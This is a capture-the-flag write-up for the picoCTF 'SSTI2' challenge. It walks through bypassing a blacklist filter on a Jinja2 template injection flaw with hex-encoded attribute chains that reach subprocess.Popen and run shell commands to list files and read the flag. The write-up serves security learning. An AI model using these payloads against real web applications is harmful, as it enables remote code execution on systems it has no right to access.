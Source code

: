# SSTI2
## Description: 
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :) I heard templating is a cool and modular way to build web apps! Check out my website here!

### Solution
1. Using the payload `{{7*'7'}}`, we get `7777777`. Thus, Jinja2 is being used.
2. However, when we run `{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls -la').read()}}`, the website return "Stop trying to break me message", indicating filter is being used.
3. To solve this, I refer to the websites https://ctf.zeyu2001.com/2021/csaw-ctf-qualification-round-2021/ninja and https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f to learn about bypassing blacklist filter.
4. First, when I try out `().__class__`, it is getting blocked as the underscore is being blacklisted.
5. Try encode the underscore with '\x5f' by using the payload **'{{()|attr('\x5f\x5fclass\x5f\x5f')}}'**. Bypass successful.
6. Next, just search **<class ‘subprocess.Popen’>** in subclasses using **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')}}'**
7. However, nothing is returned. To test that, we will first try **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')}}**
8. Nothing is returned, suggesting `__base__` maybe blocked.
9. Through ChatGPT, it is suggesting us to use **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()}}'** and it works successfully.
10. But, as we try on the payload **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()[-1]}}'**, it generates internal server error. But as we change [-1] to [1], it is blocked due to blacklisting on [].
11. Through ChatGPT, it is suggesting us to use **|last** instead of [-1]. So, the new payload is **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()|last}}'** and it returns **<class 'object'>**.
12. Next, to get a list of all built-in Python classes, we will access `__subclassess__()` using the payload **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()|last|attr('\x5f\x5fsubclasses\x5f\x5f')()}}'**
13. It will return list of subclasses. We are interested in getting the index of **subprocess.Popen**.
14. To get the index, copy all the return subclasses into a file name subclasses.txt and run this python script on it.

    ```python
    with open('subclasses.txt') as p:
        check = p.read()
    for index, value in enumerate(check.split(',')):
        if "<class 'subprocess.Popen'>" in value:
            print(index)
    ```
15. The index of **subprocess.Popen** is 356.
16. Subprocess is found in index 356, but the problem is we can’t use []. We can replace the array [] by using the __ getitem __ method.
17. So, we will use the payload **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()|last|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(356)}}'**.
18. For, RCE try the payload **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()|last|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(356)('ls -la',shell=True,stdout=-1)|attr('communicate')()}}'** to list all the files.
19. To read the flag, use **'{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('mro')()|last|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(356)('cat flag',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}'**
20. picoCTF{sst1_f1lt3r_byp4ss_e964f71b}

